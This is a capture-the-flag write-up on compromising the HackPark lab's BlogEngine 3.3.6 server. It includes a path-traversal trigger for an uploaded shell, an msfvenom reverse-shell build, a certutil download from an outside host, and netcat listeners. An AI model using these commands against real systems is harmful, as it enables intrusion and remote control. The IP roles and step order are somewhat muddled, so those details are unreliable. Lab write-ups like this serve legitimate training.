 # HackPark CTF - Attack Report

## Objective:
- Gain system-level access to the HackPark Windows Server, exploit vulnerabilities in BlogEngine 3.3.6, escalate privileges, and retrieve sensitive information from the target.

---

## Exploitation Process

### 1. Exploitation of BlogEngine 3.3.6
- **Upload Directory**: The vulnerable BlogEngine version allowed us to upload an ASPX file into the `App_Data/files` directory.
- **File Used**: We uploaded a file named `PostView.ascx` containing a reverse shell payload.

### 2. Triggering the Reverse Shell
- **Path Traversal**: To execute the uploaded file, we navigated to the following URL:
  ```bash
  /?theme=../../App_Data/files
  ```
- **Listener**: We set up a Netcat listener to receive the reverse shell on our attack machine:
  ```bash
  nc -nvlp 4444
  ```
- **Result**: Successfully received a shell from the target.

### 3. Discovery of a Scheduled Task
- **Task Identified**: We found a scheduled task named `Messages.exe` running on the system.

### 4. Reverse Shell via `Messages.exe` Exploit
- **Creation of Malicious Message.exe**: We used `msfvenom` to generate a malicious executable:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.162.140 LPORT=7777 -f exe > Message.exe
  ```
- **File Transfer**: The malicious executable was transferred to the target using `certutil`:
  ```bash
  certutil -urlcache -f http://10.23.26.19:80/Message.exe Message.exe
  ```
- **Execution**: The scheduled task automatically executed `Message.exe`, connecting to our Netcat listener:
  ```bash
  nc -nvlp 7777
  ```
- **Result**: Gained system-level access through the reverse shell.

---

## Privilege Escalation

### 5. Gaining Access to Administrator Files
- **Directory Change**: Navigated to `C:\Users\Administrator\Desktop`:
  ```bash
  cd C:\Users\Administrator\Desktop
  ```

### 6. Retrieving `root.txt`
- **Identified File**: The `root.txt` file was located in the `Administrator\Desktop` directory:
  ```bash
  dir
  ```
  **Output**:
  ```
  Directory of C:\Users\Administrator\Desktop
  08/04/2019  11:51 AM    32 root.txt
  ```
- **Reading root.txt**: The content of `root.txt` was retrieved using the `type` command:
  ```bash
  type root.txt
  ```
  **Output**:
  ```
  7e13d—redacted--b3d78d3e72
  ```

---

## Key Information

- **Reverse Shell Established**:
  - From: `10.10.162.140`
  - To: `10.23.26.19`
  - Using `Messages.exe` and Netcat listeners on ports 4444 and 7777.
  
- **Files and Folders Discovered**:
  - **Scheduled Task**: `Messages.exe`
  - **Accessed directories**:
    - `C:\Program Files (x86)\SystemScheduler`
    - `C:\Users\Administrator\Desktop`

- **Root Flag**:
  - **Location**: `C:\Users\Administrator\Desktop\root.txt`
  - **Content**: `redacted3eb3d78d3e72`

---

## Commands Summary:

- **Generate Reverse Shell**:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.162.140 LPORT=7777 -f exe > Message.exe
  ```

- **File Transfer**:
  ```bash
  certutil -urlcache -f http://10.23.26.19:80/Message.exe Message.exe
  ```

- **Netcat Listener**:
  ```bash
  nc -nvlp 7777
  ```

- **Retrieve Root Flag**:
  ```bash
  type C:\Users\Administrator\Desktop\root.txt
  ```

---

## Conclusion:
The BlogEngine 3.3.6 vulnerability was exploited successfully, allowing file upload and reverse shell execution. Privilege escalation was achieved using a scheduled task, and the root flag was retrieved from the Administrator's desktop.
